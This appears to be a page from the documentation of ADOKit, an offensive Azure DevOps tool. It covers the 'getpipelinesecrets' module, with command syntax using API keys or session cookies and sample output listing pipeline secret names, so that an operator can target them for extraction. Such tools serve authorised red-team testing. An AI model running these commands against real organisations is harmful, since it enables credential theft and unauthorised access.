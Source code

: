 ### Get Pipeline Secrets

#### Use Case

> *Extract the names of any pipeline secrets being used in project(s), which will direct the operator where to attempt to perform secret extraction.*

#### Syntax

Provide the `getpipelinesecrets` module along with a `/project:` for a given project to extract the names of any pipeline secrets being used. If you would like to extract the names of pipeline secrets from all projects specify `all` in the `/project:` argument.

`ADOKit.exe getpipelinesecrets /credential:apiKey /url:https://dev.azure.com/organizationName /project:"someProject"`

`ADOKit.exe getpipelinesecrets /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/organizationName /project:"someProject"`

`ADOKit.exe getpipelinesecrets /credential:apiKey /url:https://dev.azure.com/organizationName /project:"all"`

`ADOKit.exe getpipelinesecrets /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/organizationName /project:"all"`

#### Example Output

```
C:\>ADOKit.exe getpipelinesecrets /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/YourOrganization /project:"maraudersmap"

==================================================
Module:         getpipelinesecrets
Auth Type:      Cookie
Project:        maraudersmap
Target URL:     https://dev.azure.com/YourOrganization

Timestamp:      4/10/2023 10:28:37 AM
==================================================


[*] INFO: Checking credentials provided

[+] SUCCESS: Credentials provided are VALID.

             Build Secret Name |   Build Secret Value
-----------------------------------------------------
             anotherSecretPass |             [HIDDEN]
                    secretpass |             [HIDDEN]

4/10/23 14:28:38 Finished execution of getpipelinesecrets

```
